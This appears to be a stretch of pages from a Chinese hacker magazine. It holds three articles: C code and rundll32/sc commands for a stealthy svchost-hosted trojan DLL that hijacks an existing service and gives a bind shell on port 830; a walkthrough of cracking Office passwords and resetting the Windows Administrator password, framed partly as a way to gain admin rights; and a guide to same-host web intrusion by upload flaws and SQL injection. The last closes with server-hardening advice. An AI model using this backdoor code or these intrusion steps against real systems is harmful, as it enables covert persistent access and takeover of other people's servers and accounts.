如果我们安装一个服务，用 `svchost` 来启动 DLL，但内容却是我们木马的代码，这样不增加新的进程，只是 `svchost` 的一个 DLL，而且一般进行审计时都不会去 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` 检查服务组是否变化，因此如果添加一个这样的 DLL 后门，伪装得好，是比较隐蔽的。

要通过 `svchost` 调用来启动的服务，就一定要在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` 下有该服务名，这可以通过如下方式来实现：

- 添加一个新的服务组，在组里添加服务名；
- 在现有组里添加服务名；
- 直接使用现有服务组里的一个服务名，但本机没有安装的服务；
- 修改现有服务组里的现有服务，把它的 `ServiceDll` 指向自己；

其中前两种可以被正常服务使用；如使用第 1 种方式，启动其服务要创建新的 `svchost` 进程。第 2 种方式如果该组服务已经运行，安装后不能立刻启动服务，因为 `svchost` 启动后已经把该组信息保存在内存里，并调用 API `StartServiceCtrlDispatcher()` 为该组所有服务注册了调度处理函数，新增的服务不能再注册调度处理函数，需要重启计算机或者该组的 `svchost` 进程。

而后两种可能被后门使用，尤其是最后一种，没有添加服务，只是改了注册表里一项设置，从服务管理控制台又看不出来。如果作为后门这是很隐蔽的。例如 `EventSystem` 服务，缺省是指向 `es.dll`，如果把 `ServiceDll` 改为 `EventSystem.dll` 就很难发现。

明白了原理，编写想要的 DLL 程序就比较简单了。只要实现一个 `ServiceMain()` 函数，能让 `svchost.exe` 调用，将其注册为服务控制程序就可以了，程序如下：

```c
void __stdcall ServiceMain(int argc, wchar_t *argv[]) {
    DebugBreak();
    char svcname[256];
    strncpy(svcname, (char*)argv[0], sizeof(svcname));
    // It should be unicode, but if it's ansi we do it well
    wcstombs(svcname, argv[0], sizeof(svcname));
    OutputString("SvChostDLL::ServiceMain(%d, %s) called", argc, svcname);
}
```

```c
hSrv = RegisterServiceCtrlHandlerA(svcname,
    (LPHANDLER_FUNCTION)ServiceHandler);
if (hSrv == NULL) {
    OutputString("%S SvcHostDLL RegisterServiceCtrlHandler: %S failed", argv[0]);
    return;
}
...
TellSCM(SERVICE_START_PENDING, 0, 0);
TellSCM(SERVICE_RUNNING, 0, 0);
...
RealService(argc > 1 ? svcname : MY_EXECUTE_NAME, argc > 2 ? 1 : 0);
...
OutputString("SvcHostDLL ServiceMain done");
```

```c
ret = bind(listenFD, (sockaddr*)&server, sizeof(server));
ret = listen(listenFD, 2);
// 如果客户端连 830 端口，接受连接
int iAddrSize = sizeof(server);
a:
SOCKET clientFD = accept(listenFD, (sockaddr*)&server, &iAddrSize);
send(clientFD, "welcome to door by ourselves\n", ...);
send(clientFD, "door", ...);
while (1) {
    ZeroMemory(cmd, 1024);
    iBytesRead = 0;
    while (iBytesRead < 256) {
        if (recv(clientFD, Buff, 1, 0) == SOCKET_ERROR) {
            closesocket(clientFD);
            goto a;
        }
        cmd[iBytesRead] = Buff[0];
        if (Buff[0] == 0xA || Buff[0] == 0xD) {
            cmd[iBytesRead] = 0;
            break;
        }
        iBytesRead++;
    }
    // 帮助信息
    if (strcmp(cmd, "?") == 0) { ... }
    if (strcmp(cmd, "open") == 0) { ... }
    if (strcmp(cmd, "close") == 0) { ... }
    if (strcmp(cmd, "x") == 0) { SwapMouseButton(1); }
    if (strcmp(cmd, "r") == 0) { SwapMouseButton(0); }
    if (strcmp(cmd, "shell") == 0) { cmdShell(clientFD); }
}
```

而改写注册表，将某个服务的 ServiceDll 改成自己 DLL 本身，则是一件很容易的事。下面的代码将 name 服务的 DLL 改为自身，这里 name 服务可以任意指定，注意应该是现在服务组里存在的服务名，比如 iprip 等等，否则不会成功的（注册表里都没有）。

具体代码请参看 SvcHostDLL 目录，那是 bingle 提供的一个测试代码。安装时，先运行 `rundll32 svchostdll.dll,RundllInstall abcd`，可以看到提示信息，只能指明已存在的服务名；然后选一个存在的，比如 IPRIP 服务作替换安装，命令如下：`rundll32 svchostdll.dll,RundllInstall IPRIP`；然后启动服务并带上要执行的参数，比如：`sc start iprip "cmd /k whoami"`。这样就会发现执行了 cmd 这个命令。但 bingle 的程序并不带网络木马的功能，我们加以改进吧！打造真正的木马系统服务 DLL！

要改进也很简单，我们把 RealService() 函数改为我们的木马代码，如下：

```c
int RealService(char *command, int bInteract)
{
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024], cmd[1024];
    int ret;
    unsigned long iBytesRead;

    // 初始化 wsa
    WSAStartup(MAKEWORD(2,2), &ws);

    // 建立 socket
    listenFD = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    // 监听本机 830 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = INADDR_ANY;
}
```

```c
send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"));

// 退出木马，还可再连接
if (strcmp(cmd, "quit") == 0) {
    closesocket(clientFD);
    goto ag;
}

// 木马退出程序
if (strcmp(cmd, "exit") == 0) {
    closesocket(clientFD);
    closesocket(listenFD);
    goto end;
}

if (strlen(cmd))
    send(clientFD, "door>", sizeof("door>"), 0);

Sleep(10);
```

具体工程请参看 SvcHostDLLMuma 目录，编译生成 DLL 后，执行 `rundll32 svchostdll.dll,RundllInstall IPRIP`，再启动 IPRIP 服务，830 端口打开，telnet 上去，可爱的 shell 又出来了！

# 几个实际的 DLL 木马 & 小结

几种实际中常用的 DLL 木马都是利用这几种手段实现的，duohuabaobao 在相关文章中详细讨论过 WinShellEgg、BITS 等 DLL 木马的启动方法，这里就不再重复了。学习完这篇专题有了基础后，你也可以亲自去实现这样的 DLL 木马，追求技术的进一步提高，加油！

（注：本文提到的《菜鸟后门编写步步高》《VC 编程初窥基础》等资料可参考本刊相关期数。本文涉及的相关代码，光盘中已收录。）

# 一把万能钥匙——Passware Kit Enterprise Edition

◇ 会魔力的狗狗·双双

HACKER 最初是指善于解密的电脑高手，所以现在对于我们来说无论是 CRACKER 还是 HACKER，时常都会碰到密码问题……今天我就给大家带来一个能破解超过 25 种密码的破解器，Passware Kit Enterprise Edition v7.1.1411 汉化版闪亮登场了。

这个版本的 Passware Kit 支持微软的系列 OFFICE 软件密码破解，如 Excel、Access、Outlook、Word；还可以破解 WinZip、Windows 2000/XP/NT、Acrobat、WordPerfect、Lotus Notes、QuickBooks、Internet Explorer、Outlook Express 等类型密码，并加强了对 Windows NT/2K/XP、QuickBooks 和 Internet Explorer 密码的恢复功能。

这里该软件有个 BUG：在处理未知格式、不兼容文件版本或不包含密码文件时，有时会出现异常退出。总体来说还是一款不错的软件，建议把 Passware Kit 收藏在自己的百宝箱里以备不时之需。

Passware Kit 需要用户在计算机上安装后才能使用，解压后是一个安装文件，安装过程基本一路“下一步”即可。安装成功后可在“开始→程序→Passware”中找到程序，里面有多个用于破解密码的工具，可针对不同类型密码文件选择不同程序。

由于有多个破解器，本文挑几个常用的密码文件演示操作。

### 三、IE 分级审查密码破解

IE 分级审查密码破解可以通过 IE 属性中的“内容”→“分级审查”→“设置”来实现。设置后浏览某些网站会先弹出密码窗口，没有密码则不能浏览。此时可在 Passware Kit 中找到 Internet Explorer Key 等工具进行恢复。其他程序界面也和这个相似，可按图示步骤操作。

# 主题乐园


PowerPoint、VBA 文件和 Outlook 邮件账户密码。这里介绍改变复杂点，“联机”可以立即预览有关密码的 Word 和 Excel 文档内容。


Office Key 将连接到网站服务生成免费预览和解密文档内容。但是需要购买证书才能完整解密文件，预览并不收费，仅显示部分内容。考虑数据安全性，文件只传输部分需要解密的内容。


根据提示，我们现在要把所有的浏览器窗口关闭才能开始“恢复”，否则程序会报错。点击“恢复”，程序便开始重置分级审查的密码。


注意这里说的是“重置分级审查的密码”而并非“破解分级审查的密码”。所以一旦“恢复”后原密码就会失效。现在重新设置新密码即可取消 IE 的分级审查。


Office Key 使用 256 位加密方法进行数据加密以保障传输安全。在工具栏“设置”里可设置破解进程级别、破解类型、字典路径等参数；“Xieve 优化”“暴力破解”“符号集”等栏目可按需调整。


## OFFICE系列软件密码的破解

Passware Kit 支持所有版本的 OFFICE 文档，包括 OFFICE2003。在 Passware 文件夹中找到 Office Key 程序并运行。从图中可知它可以破解 Excel、Word、Access、Outlook 等文档与账户密码。

设置好后用快捷键“CTRL+O”打开要破解的文件并开始破解。结果窗口会显示文档类型、密码状态等信息，例如可看到已找到的密码字符，并提示“文件修改密码”“文档密码”等字段状态。

# Windows XP/2000/NT 的 Administrator 密码破解

下面我给大家介绍最后一种密码的破解，或者应该说是解除吧。说完闪人~

有时我们可能会忘掉设置的计算机管理员密码而无法进入系统，或者在公用的计算机上的权限很少而需要得到 ADMIN 权限，那么我们拥有 Administrator 的密码就是最好不过的选择了。打开 PASSWARE 文件夹里的 Windows XP-2000-NT Key 程序如图11。

这里我介绍了解除计算机管理员密码的流程：首先用第三方程序配合系统安装盘生成一个可更改当前计算机管理员密码的文件，然后我们可以把这个文件放在启动盘里，比如软盘、光盘。重新启动系统，让系统转到我们的启动盘上来（比如可以先放一张系统安装盘启动电脑，在启动过程中按下 F6 键，意为让电脑安装第三方启动程序）；然后，我们把生成的文件开始运行了，接下来就按程序提示操作，一步一步最终更改计算机管理员密码。


所以现在我们选择是制作光盘镜像还是软盘。由于我计算机没有软驱（我想大部分朋友现在配置电脑时也不会要软驱吧），因此，这里以光盘为例子。单击“Windows Key 可引导 CD-ROM”后，如图12。


这时放入系统的安装盘，在第一栏上选择 TXTSETUP.SIF 文件的位置，我的是“H:\SERVER\I386\TXTSETUP.SIF”。下面一栏选择生成文件的路径，然后“下一步”，如图13。

这里填写等下恢复密码时软件的认证信息，密码如果设置了的话，等下在恢复计算机管理员密码时会要求你输入密码，然后“下一步”，如图14。

程序开始生成密码恢复文件（Windows Key），一会儿会提示文件生成完成并显示路径，如图15。现在就可以关闭 Windows XP-2000-NT Key 了，我们把“WindowsKey.iso”文件刻录到光盘后，把系统安装盘放入光驱重新启动电脑，再按 F6 键，如图16。

呵呵，挺像安装系统时的样子哦，稍等一会儿出现如下画面，如图17。这里显示了先前我们填写的一些信息。


在 DOS 下，DOS 是不能支持中文的显示（即“资中二中校长”），如图17问号处。接下来要求我们输入密码了，即 5201314，但我弄了几次都没成功，先输入没有屏显，自己以为是不显示密码输入的，可“ENTER”了几次都错了，而输入密码的机会只有 3 次。举一反三后才发现是数字键盘的问题，所以大家在输入时不要用键盘右边的数字小键盘输入，密码正确后如图18。


接下来询问选择“1”还是“0”，“0”是退出，我们当然选择“1”了，记住了还是用横着的那排数字输入，如图19。接下来我们继续选择“Y”，如图20。


然后，我还是选择“1”，如图21。询问密码是否改为“12345”，选择“Y”继续，如图22。哈哈，成功了。如图22，计算机管理员的密码变为“12345”了。然后重启计算机，请记住拿出光盘。登录系统输入新密码时计算机可能会提示密码过期，大家自己再设置一下就可以了。


最后啰嗦下，压缩工具软件的破解常用的分为 RAR 和 ZIP，所以大家破解前请……

# 主题乐园


# 借学活用：玩转旁注攻击

彭文波

一段时间以来，旁注入侵开始逐渐显示其威力。顾名思义，旁注就是“从旁注入”，它的主要方法是利用同一主机上的不同网站漏洞得到 Webshell，然后利用主机上的程序或是服务所暴露的用户所在的物理路径进行入侵，可以说“一损俱损，一荣俱荣”！因此，对于一个有着多个网站的虚拟主机来说，旁注的杀伤力是很大的。而且，在旁注的过程中，可以融合很多的攻击手法，例如权限的提升、木马的植入等等。在本文的实践中，我们将综合最新的旁注工具“旁注入侵专用程序3.2”和其他典型工具进行讲解。旁注入侵专用程序3.2下载地址：http://www.hackdiy.com/


## 一、旁注攻击的基本原理与实例

### 1、外部条件分析：whois 技术

首先，我们来分析一下 whois 的查询原理。很多用户都知道，平时使用的 DNS 域名需要统一向总部位于美国的国际域名组织进行注册。为了方便管理，国际域名组织将域名的信息放到了 whois 查询系统中，这样，我们只要使用 whois 就能查出某域名解析的 IP 是什么了。得到解析的 IP 后，通过 whois 的查询功能，在域名的记录里就能找到所有解析到这个 IP 的域名信息。或者直接到 http://whois.webhosting.info 这个网站，查询一个 IP，看它绑定了多少个域名，如图1所示。

从整个 whois 查询的过程可以看出，一旦查出某域名所解析的 IP，要阻止它继续查询 IP 上绑定的其他域名似乎有点困难。其实，whois 查询到的域名解析 IP 地址就是我们在域名管理的 A 记录中填写的 IP 地址。所以，我们只须在域名管理的 A 记录中填上一个错误的解析地址，这样 whois 查询到的地址也就自然是错误的了。

有人也许会说：“你在 A 记录中填写了一个错误的 IP，这样 whois 是查不了，但域名也无法正常解析啊。”其实，我们只须在 A 记录中动点手脚，就可以使域名正常解析了。一个最合适的例子是，当我们在图书馆中按目录找一本书时，结果却找不到。这时，我们会考虑寻找“下一个记录”。同样的道理，当我们找不到域名的记录时，系统会提示返回“下一个域名服务器”重新检查。因此，只要我们在错误的域名解析后再新增一个一模一样的域名，解析到正确的 IP 就可以了。使用这个方法一定要注意，要先在 A 记录中设置错误的解析地址，然后再添加正确的解析。

### 2、旁注入侵服务器的可能性分析

通过 whois 技术，查出地址并不代表一定能够进行旁注攻击。试想，如果主机的设置是 IIS 单用户权限并且禁止运行任意 CMD 命令，那么，旁注的入侵就成为了一大难题。为什么这么说呢？我们可以分析如下：

- （1）主机最好安装了 IIS 系统

如果主机安装了 IIS 系统，就要针对管理员的习惯了。如果管理员是负责的话，大多数都会在 IIS 设置中保存 IIS 用户配置的，这样我们就可以得到 IIS 日志和用户配置、目标网站的 IIS 设置、网站物理路径、脚本的支持等信息。还要说明一点的是：IIS 用户配置文件如果没有备份过的话，是以 IISUPDATE.MD0 的递进后缀名存在的。要注意的一点是，如果主机的 IDC 系统是虚拟主机管理系统的话，你们就要注意了，主机的权限和用户配置都有所不同。

第一是 IIS 是没有用户配置文件的。第二是 Serv-U 暴露路径的机会并不大，因为虚拟主机管理系统的权限设置大多较严格。IIS 单用户权限，入侵一台主机后，我们首先关心的可能就是如何去确定主机的 IIS 权限了。以“灰客木马”为介绍，我们先查看木马的首页，从那里我们可以得到主机的权限设置、机器名等信息。

- （2）主机要可以执行 CMD 任意命令

如果主机不能执行 CMD 任意命令的话，就导致在旁注的过程当中不能进入一些重要的文件夹或者查看一些服务是否开放。很多木马并不是固定死的，需要借助 CMD 命令查看服务开放，并根据开放的服务去调整入侵方法。

- （3）主机需要支持 FSO/ADO/WSH/ 等功能

如果主机不能够支持 FSO/ADO/WSH 的话，就根本不需要入侵了。我们的木马不少就是利用这种功能运行及实现功能。旁注中也要平时多做分析各类漏洞，明白漏洞的形成原因和过程，才能自己去发现漏洞。

- （4）主机安装了 Serv-U、诺顿杀毒等其他软件

如果主机安装了 Serv-U，我们就可以利用 Serv-U 的用户配置文件进行目标网站路径查询，从而进行同一服务器跨站式入侵。若没有权限，可利用 Serv-U 本地提权漏洞进行权限提升。若安装了杀毒软件，也可通过日志等信息得到目标网站路径。

FTP 日志路径、IIS 用户配置路径、系统日志路径、应用程序日志路径、杀毒日志路径等示例：

- `%systemroot%\system32\LogFiles`
- `C:\WINDOWS\system32\inetsrv\MetaBase.xml`
- `%systemroot%\system32\config\SysEvent.EVT`
- `%systemroot%\system32\config\AppEvent.EVT`
- `C:\Documents and Settings\All Users\Application Data\...`

如果扫描的对象具有上述特征，我们就可以开始下面的工作了。

## 三、找到典型入侵思路分析

就像一个精明的商人一样，在完成对一个项目的实地考察之后，我们就可以进行测试了。

### 1、一网打尽：论坛和上传漏洞

在“旁注检测”选项卡中，单击“网站批量检测”按钮，将会载入所有检测到的网站地址。若要测试上传漏洞，可选择可能存在的地址（如 `upfile.asp`、`saveup.asp` 等），并在右侧选择“上传/数据库/后台”之一，然后开始检测。


现在要做的就是看网站有没有论坛漏洞。写程序时有些站点没有把 `upload.asp` 等文件进行验证，攻击者可利用论坛程序中的上传点。从网站首页可看出是否存在论坛。动网论坛等常见程序有较多研究与专用工具，上传漏洞是常见类型之一。

对比分析可发现，各种论坛有很多共同特点。很多论坛会在底部显示版本信息（如 Powered By...），不同版本首页细节也有区别，特别是动网 5.0 和 7.0 等版本，需要据其漏洞特征判断。文中列举了多种可利用类型。

漏洞还有其他类型，这里只是常用的一些入侵方法。熟练运用这些方法后，一般网站可被进一步测试；但针对虚拟主机时受权限和管理策略影响较大，能否突破也取决于对方管理员安全意识。

### 2、殃及池鱼：SQL 注入漏洞

SQL 注入越来越多地被利用来入侵网站。由于部分 WEB 程序员对入侵方法一知半解，过滤时漏掉关键字符，造成安全漏洞；或者草木皆兵，将合法请求也拒之门外。下面从最简单的 SQL 语句开始分析。


个网站注入点，选中后点击右键，在弹出的菜单中选择“检测注入”，进入到“SQL 注入猜解检测”界面，如图5所示。


```
SQL="Select * from Users where UserID=" & Request("ID")

SQL="Select * from Users where UserID='" & Request("ID") & "'"

SQL="Select * from Users where UserName like '%" & Request("Name") & "%'"
```

区分数字型和字符型参数，只要看 SQL 语句参数两边有没有单引号即可。很明显，第一句没单引号，是数字型；第二第三句有单引号，是字符型。对于数字型变量，传入的参数都会直接附加到 SQL 语句中执行。对于字符型变量，传入的参数都会作为常量。比如用户传“' and 1=1”（不带双引号）进去，SQL 语句就是 UserID='' and 1=1，在单引号界定范围里面的值永远都只是一个常量。要打破这个范围，唯一的字符就是界定的字符：单引号。所以，字符型变量只要过滤了“'”号就完全安全了。至于如何过滤，最好是把一个单引号替换成两个单引号，因为 SQL 语句里规定，“'常量'”是这样表示的，常量里面如果要有单引号，可以用两个单引号代替。这样，既可以保持用户输入的原貌，又可以保证程序的安全。

那么，如何批量对多个网站进行注入点扫描呢？在上面的实例中，单击“SQL 注入”标签，再单击“载入查询网址”，就可以载入这台虚拟主机上的网站对象。然后，单击“批量分析注入点”，很快就可以得到如图4所示的注入地址了。


现在，在下面检测到的图4下方的注入地址中，随便选中一个注入点，选中后点击右键，在弹出的菜单中选择“检测注入”，进入到“SQL 注入猜解检测”界面，如图5所示。

在这里，经过“猜解表名”“猜解列名”“猜解内容”后，就可以得到网站的管理员和密码了。找到管理地址后，就可以轻而易举地进行攻击了。当然，这只是一个比较图形化的攻击套路，实际应用中，还可以结合 FTP Server 信息，进行灵活的攻击。

## 二、服务器攻击的全面防范

只要服务器中稍微存在一些配置疏忽，就可能导致网站被旁注入侵并被夺取权限。下面，我们将针对旁注攻击的各种入侵手法来对服务器进行全面的安全设置。

### 1、服务器组件的相关防范

那么，用户在实际测试中应该怎样来防范 ASP 后门木马程序呢？其实，对于 ASP 后门木马的防范，我们只要在注册表中把“shell.application”“WSCRIPT.SHELL”等危险的脚本对象进行改名或删除，也就是限制系统对“脚本 SHELL”的创建，ASP 木马也就成为无本之木、无米之炊，运行不起来了。不难看出，一般 ASP 木马、Webshell 主要利用了以下几类 ASP 组件：

```
WScript.Shell（classid:72C24DD5-D70A-438B-8A42-98424B88AFB8）
WScript.Shell.1（classid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B）
WScript.Network（classid:093FF999-1EA0-4079-9525-9614C3504B74）
WScript.Network.1（classid:093FF999-1EA0-4079-9525-9614C3504B74）
FileSystem Object（classid:0D43FE01-F093-11CF-8940-00A0C9054228）
Adodb.stream（classid:00000566-0000-0010-8000-00AA006D2EA4）
```

（1）FileSystemObject 组件的相关设置

现在绝大多数的虚拟主机都禁用了 ASP 的标准组件 FileSystemObject，因为这个组件为 ASP 提供了强大的文件系统访问能力，可以对服务器硬盘上的任何文件进行读、写、复制、删除、改名等操作。但是禁止此组件后，引起的后果就是所有利用这个组件的 ASP 将无法运行，无法满足客户的需求。如何既允许 FileSystemObject 组件，又不影响服务器的安全性呢？以典型的 ASP 木马为例，它主要通过三种技术来进行对服务器的相关操作……

# 主题乐园

通过修改注册表，将此组件改名，来防止此类木马的危害。首先，找到 `[HKEY_CLASSES_ROOT\Scripting.FileSystemObject]` 键值，将其改为其它名字，如 `FileSystemObject_ChangeName`。同时，也要将 CLSID 值改一下，也可以将其删除，来防止此类木马的危害。键值为：`[HKEY_CLASSES_ROOT\Scripting.FileSystemObject\CLSID]` 项目的值，如图6所示。


另外，可以考虑注销此组件。命令为：`RegSvr32 /u C:\WINNT\SYSTEM\scrrun.dll`。如果要禁止 Guest 用户使用 scrrun.dll 来防止调用此组件，可以使用如下命令：`cacls C:\WINNT\system32\scrrun.dll /e /d guests`。

### （2）WScript.Shell 组件的相关设置

`WScript.Shell` 可以调用系统内核运行 DOS 基本命令。可以通过修改注册表，将此组件改名，来防止此类木马的危害。将 `[HKEY_CLASSES_ROOT\WScript.Shell]` 及 `[HKEY_CLASSES_ROOT\WScript.Shell.1]` 改名，如 `WScript.Shell_ChangeName` 或 `WScript.Shell.1_ChangeName`。自己以后调用时使用新名称即可。同时，也要将 CLSID 值改一下，或者将其删除来防止此类木马的危害，如图7所示。


### （3）Shell.Application 组件的相关设置

`Shell.Application` 可以调用系统内核运行 DOS 基本命令。可以通过修改注册表，将此组件改名，来防止此类木马的危害。将 `[HKEY_CLASSES_ROOT\Shell.Application]` 及 `[HKEY_CLASSES_ROOT\Shell.Application.1]` 改为其它名字，如 `Shell.Application_ChangeName` 或 `Shell.Application.1_ChangeName`，自己以后调用时使用新名称即可。同时，也要将 CLSID 值改一下，或者将其删除来防止此类木马的危害，如图8所示。


禁止 Guest 用户使用 shell32.dll 来防止调用此组件。使用命令：`cacls C:\WINNT\system32\shell32.dll /e /d guests`。注：操作均需要重启 Web 服务后才会生效。

### （4）调用 Cmd.exe

禁用 Guests 组用户调用 cmd.exe 命令为：`cacls C:\WINNT\system32\cmd.exe /e /d guests`。通过以上四步的设置，基本可以防范目前比较流行的几种木马，但最有效的办法还是通过综合安全设置，将服务器、程序安全都达到一定标准。

按照上述方法对 ASP 类危险组件进行处理后，可以用网页木马探针测试，或再用“海阳顶端木马”测试 WScript.Shell 来运行 cmd 命令，也会提示 ActiveX 无法创建对象。

## 2、针对用户目录的限制

目前有很多脚本都可能导致安全隐患，因此在设置 IIS 网站的目录权限时，要严格限制执行、写入等权限。若目录权限设置不严格，攻击者可能上传木马并执行 COPY、MOVE、改名等操作，进而造成入侵风险。对于空间服务商来说，必须对各个目录的用户权限进行严格设置。

以 IIS 目录为例，管理员可设置拒绝特定 IP 地址、子网甚至域名访问服务器。此外，还可使用 WhoSon 等软件监控访问行为，发现异常访问（如尝试访问 cmd.exe）时可及时阻断用户访问 Web 服务。

实际安全防范中，无论是空间服务商还是空间用户，都必须时刻注意安全并做问题分析。仅保证自身程序安全还远远不够，用户程序问题或管理失误都可能导致网站被攻击，因此必须从更大范围加强网站系统安全，构建更完整的防范体系。

> （本文所涉及的相关工具：旁注入侵专用程序 v3.2，光盘中有收录。）